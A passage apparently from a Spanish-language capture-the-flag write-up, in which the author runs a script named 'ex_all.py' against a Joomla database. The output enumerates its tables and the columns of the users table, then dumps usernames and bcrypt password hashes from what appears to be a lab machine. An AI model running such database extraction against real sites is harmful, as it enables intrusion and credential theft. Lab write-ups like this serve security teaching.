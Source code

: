 ```bash
❭ python3 ex_all.py joomladb  
[+] Extrayendo tablas de la base de datos joomladb: d0Ne
[+] Payload: d0Ne
------------------------------------------·  
[+] Tabla [0]: edz2g_assets                  
...
...
...
[+] Tabla [69]: edz2g_users
[+] Tabla [70]: edz2g_utf8_conversion
[+] Tabla [71]: edz2g_viewlevels
```

Bien, enumeremos la tabla `edz2g_users`:

```bash
❭ python3 ex_all.py joomladb edz2g_users
[+] Extrayendo columnas de la tabla edz2g_users: d0Ne
[+] Payload: d0Ne
------------------------------------------·
[+] Columna [0]: id
[+] Columna [1]: name
[+] Columna [2]: username
[+] Columna [3]: email
[+] Columna [4]: password
[+] Columna [5]: block
[+] Columna [6]: sendEmail
[+] Columna [7]: registerDate
[+] Columna [8]: lastvisitDate
[+] Columna [9]: activation
[+] Columna [10]: params
[+] Columna [11]: lastReset
[+] Columna [12]: resetCount
[+] Columna [13]: otpKey
[+] Columna [14]: otep
[+] Columna [15]: requireReset
```

Veamos la data de los campos `username` y `password`:

```bash
❭ python3 ex_all.py joomladb edz2g_users username
[+] Info columna username - tabla edz2g_users: d0Ne
[+] Payload: d0Ne
------------------------------------------·
[+] [0]: geordi.la.forge
[+] [1]: Guinan

k3Ep br3ak1n6 4anYyyu...

```

```bash
❭ python3 ex_all.py joomladb edz2g_users password
[+] Info columna password - tabla edz2g_users: d0Ne
[+] Payload: d0Ne
------------------------------------------·
[+] [0]: $2y$10$cXSgEkNQGBBUneDKXq9gU.8RAf37GyN7JIrPE7us9UBMR9uDDKaWy
[+] [1]: $2y$10$90gyQVv7oL6CCN8lF/0LYulrjKRExceg2i0147/Ewpb6tBzHaqL2q

k3Ep br3ak1n6 4anYyyu...

```
